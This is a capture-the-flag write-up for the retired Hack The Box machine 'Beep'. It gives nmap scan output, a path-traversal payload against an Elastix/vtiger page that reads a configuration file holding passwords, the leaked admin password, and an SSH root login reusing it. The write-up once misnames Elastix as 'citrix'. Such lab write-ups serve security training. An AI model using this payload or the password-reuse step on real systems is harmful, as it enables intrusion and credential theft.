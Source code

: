 # Solution for Beep - Retired - HacktheBox

## Enumeration
```text
┌──(hanoz㉿kali)-[~/Desktop/htb/beep]
└─$ sudo nmap -sV -sC -A -O -p- 10.10.10.7                                                                                                                                                                                               1 ⨯
[sudo] password for hanoz: 
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-15 10:03 EST
Stats: 0:02:28 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 93.75% done; ETC: 10:06 (0:00:09 remaining)
Stats: 0:05:53 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.48% done; ETC: 10:09 (0:00:02 remaining)
Nmap scan report for 10.10.10.7
Host is up (0.011s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: EXPIRE(NEVER) LOGIN-DELAY(0) UIDL APOP TOP STLS RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) USER AUTH-RESP-CODE PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK URLAUTHA0001 SORT=MODSEQ MAILBOX-REFERRALS THREAD=ORDEREDSUBJECT LIST-SUBSCRIBED CATENATE IMAP4rev1 UNSELECT CHILDREN ANNOTATEMORE IMAP4 LISTEXT IDLE QUOTA MULTIAPPEND CONDSTORE ATOMIC X-NETSCAPE LITERAL+ THREAD=REFERENCES SORT BINARY ID ACL UIDPLUS NAMESPACE RENAME STARTTLS RIGHTS=kxte NO
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2022-01-15T16:07:15+00:00; +1h00m00s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
44

45/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=1/15%OT=22%CT=1%CU=31696%PV=Y%DS=2%DC=T%G=Y%TM=61E2E3D
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=CC%GCD=1%ISR=CE%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11N
OS:W7%O6=M505ST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M505NNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M505ST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 59m59s

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   11.68 ms 10.10.14.1
2   11.84 ms 10.10.10.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 407.45 seconds
```

HTTP Servers:
You get directed to an elastix Login
From a simple google search, we see that
```text
Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality.
```

So that explains why SMTP, IMAP, POP3 and several other communication service ports are open. Cool. 
Default passwords don't seem to work here.
There are a few vulnerabilties associated with it, but let's first explore the machine a bit more

On port 10000, there is a webmin login page. Let's see what is happening
The default login fails here too, so we will have to try something else.

There is an RCE associated with webmin, but it requires a password. We will have to somehow find it first. 

When we try to login to MySQL, we are greeted with this message
```text
┌──(hanoz㉿kali)-[~/Desktop/htb/beep]
└─$ mysql -h 10.10.10.7                                                                                          1 ⨯
ERROR 1130 (HY000): Host '10.10.14.9' is not allowed to connect to this MySQL server
```

Now, we try to exploit citrix. We can see that there is an LFI vulnerability in searchsploit. 
```text
searchsploit -m php/webapps/37637.pl
```

We copy paste the payload as 

```text
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

From the text of the page, we can see that passwords are exposed. We can get the credentials to login to the service. 

```text
admin
jEhdIekWmdjE
```

We can see that from the revealed page, the same password is being used pretty much everywhere. So maybe we can use it to login as root?

Let's try
```text
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```

Yup, we are able to get both the user and root password.
